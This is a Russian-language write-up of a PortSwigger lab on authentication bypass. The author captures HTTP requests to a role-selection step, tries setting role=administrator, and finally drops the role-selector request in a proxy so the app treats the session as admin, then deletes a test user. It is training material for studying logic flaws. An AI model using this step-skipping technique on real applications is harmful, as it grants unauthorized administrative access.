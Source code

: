 ```yaml
---
title: "Authentication bypass via flawed state machine"
date: 2025-10-30
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-flawed-state-machine"
classes: wide
---
```


Для прохождения лабы нужно получить доступ к аккаунту администратора и удалить пользователя `carlos`. Для входа в учетную запись есть креды `wiener`:`peter`.

```
https://0a7d00c304dd9178827a330300a600ca.web-security-academy.net/
```

# Solution

Вперед в учетку)

Это было внезапно.

```http
POST /role-selector HTTP/2
Host: 0a7d00c304dd9178827a330300a600ca.web-security-academy.net
Cookie: session=d5gicbuzzvFBTszMXU8zGyws9d9yTmmk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7d00c304dd9178827a330300a600ca.web-security-academy.net/role-selector
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: https://0a7d00c304dd9178827a330300a600ca.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

role=content-author&csrf=jJii9eIKoEOGtiAKj8i2pUwZQA5oIsmW
```

Я человек простой: вижу `role` - ставлю `admin`.

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
Set-Cookie: session=JuesfTYtgBj0RbgzKLYC5J1LbDgBe3KX; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 31

"No login credentials provided"
```

Что-то не пошло( Попробую еще раз. Разлогинюсь. Введу креды. Перехвачу пакет с выбором роли, чтобы заменить ее на `administrator`:

```http
POST /role-selector HTTP/2
Host: 0a7d00c304dd9178827a330300a600ca.web-security-academy.net
Cookie: session=g7fJ0eBjmVSx55xEG0oxe4QOlzJH0akB
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a7d00c304dd9178827a330300a600ca.web-security-academy.net/role-selector
Content-Type: application/x-www-form-urlencoded
Content-Length: 56
Origin: https://0a7d00c304dd9178827a330300a600ca.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

role=administrator&csrf=1uDMZJN1fr3NXI3kQIn5WBzucYEZYYoC
```

Все прошло, но админки я так и не получил(

```http
HTTP/2 302 Found
Location: /
Set-Cookie: session=W7MeSejaUN2nhyw2k0sLXviGquW64LU7; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Хм. А что будет, если мы не выставим роль? Попробую сразу перейти на лк после ввода кред. Иии... меня выкинуло на форму `login`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_authentication-bypass-via-flawed-state-machine/1.png){: height="200" .align-center}

Попробую не отправлять ответ на `/role-selector`. Просто дропну его через проки:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_authentication-bypass-via-flawed-state-machine/2.png){: height="200" .align-center}

Сайт решил, что мы админ. Ну бывает)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_authentication-bypass-via-flawed-state-machine/3.png){: height="200" .align-center}

Удалю пользователя `carlos`, чтобы решить лабу)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_blv/IMG_authentication-bypass-via-flawed-state-machine/4.png){: height="200" .align-center}